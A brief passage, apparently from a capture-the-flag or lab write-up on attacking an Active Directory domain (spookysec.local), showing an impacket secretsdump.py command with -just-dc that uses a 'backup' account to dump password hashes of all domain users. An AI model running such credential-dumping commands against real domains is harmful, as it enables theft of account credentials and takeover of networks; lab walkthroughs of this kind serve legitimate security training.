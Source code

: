 ```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup@spookysec.local 
```



This will aloow us to get a hashdump of all active directory domain users 

>Note: authentication of backup account required
